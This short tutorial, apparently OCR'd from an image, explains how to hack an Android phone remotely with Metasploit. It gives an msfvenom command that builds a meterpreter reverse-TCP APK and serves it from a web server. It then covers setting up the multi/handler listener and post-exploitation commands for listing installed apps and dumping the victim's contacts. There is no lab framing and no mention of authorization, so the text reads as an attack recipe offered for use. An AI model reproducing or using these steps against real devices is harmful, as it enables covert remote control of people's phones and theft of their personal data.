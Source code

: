 # Hacking Android phone remotely using Metasploit



Step 1: Generating a Payload with msfvenom 

\# msfvenom –p android/meterpreter/reverse\_tcp LHOST=192.168.0.112 LPORT=4444 R>/var/www/html/ehacking.apk 



Step 2: Launching an Attack 

Before launching attack, we need to check the status of 

the apache server. Type command: # service apache2 status 



now fire up msfconsole. 

Use multi/handler 

exploit, 

set payload the same as generated previously, 

set LHOST and LPORT values same as used in payload and 

finally type exploit to launch an attack.  





#### Post Exploitation :



Type “background” and then “sessions” to list down all 

the sessions from where you can see all the IPs connected 

to the machine.  



Type “app\_list” and it will show you all the installed 

apps on the device 



#### Extracting Contacts from an Android Device :



Type “dump\_contacts” and enter



It will extract all the contacts from the Android device 

and will save it in our local directory. To see this file type 

“ls” and “cat \[file\_name]”  



